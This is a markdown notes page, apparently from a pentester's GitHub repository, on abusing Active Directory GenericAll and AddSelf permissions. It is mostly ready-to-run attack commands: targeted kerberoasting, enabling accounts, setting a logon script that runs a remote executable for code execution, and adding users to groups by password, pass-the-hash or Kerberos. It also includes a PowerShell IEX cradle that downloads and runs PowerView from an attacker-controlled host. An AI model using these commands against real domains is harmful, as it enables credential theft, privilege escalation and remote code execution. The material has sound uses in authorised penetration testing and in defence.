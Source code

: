 # Abusing GenericAll (User over User)

If an user have GenericAll over an user can get user NT hash, enable/disable user, change password, and change user properties, this properties include change logon script wich allos for RCE if user connects. It is recomende to first, get the nt hash (or if not possible kerberos hash), then check if user conects frequently, and if both ways are not allowed go for changing the password.

### From Linux (externally, recomended)

#### Shado credentials attack (get NThash):

Check Shadow credentials seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/AddKeyCredentialLink%20(SHADOW%20CREDENTIALS).md

<br>

#### Target kerberoast (get kerberoast hash):

You can make the user kerberoastable. User is required to be enabled. If it's not, enable it first. Additionally may require to sinc datetime with DC for kerberos interaction.

`targetedKerberoast.py -v -d '<domain>' -u '<controlled user>' -p '<controlled user password>'`

source: https://github.com/ShutdownRepo/targetedKerberoast

<br>

#### Enable user (or change other properties):

`ldap_shell.py '<domain>/<user you control>:<password>' -dc-ip <ip>`

When inside use the interactive shell to change properties. Example "enable_account <user>".

Source: https://github.com/PShlyundin/ldap_shell

<br>

#### Set logon script (get RCE if user login):

You can force the user to execute specific program or script, and if user logs into the system, that program will be executed.

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<controlled user>' -p '<password>' set object <target user> msTSInitialProgram -v '\\1.2.3.4\share\file.exe'`

Source: https://www.thehacker.recipes/ad/movement/dacl/logon-script

<br>

#### Change user password (Force Change Password):

You can change user password remotly and then use it to connect via winrm, rdp etc...

Check Force Change Password seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/ForceChangePassword.md


<br>
<br>
<br>




# Abusing AddSelf

If an user have AddSelf over a group can add itself inside the group. This can be done with multiple tools.

### From Linux (enternally recomended):

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S '<dc-ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p '<password>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With KERBEROS auth:

Ldap_shell -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`ldap_shell '<domain>/<user>:<password>' -dc-host <machine.domain> -k`

`add_user_to_group <user> <group>`

BloodyAD -> `gettgt.py <domain>/<user>:<password>`

`export KRB5CCNAME=<ticket_name>`

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<user>' -k --host <machine.domain> add groupMember '<group>' '<user to add in group>'`

<br>

### From Windows (internally):

`net group <group> <user> /add /domain`

Additionally can be done with Active directory module (powershell module):

`Add-ADGroupMember -Identity '<group>' -Members '<user>'`

Also is possible with powerview module:

Load module -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`Add-DomainGroupMember -Identity '<group>' -Members '<user>'`

<br>

### Articles:

https://www.hackingarticles.in/addself-active-directory-abuse/

https://bloodhound.specterops.io/resources/edges/add-self




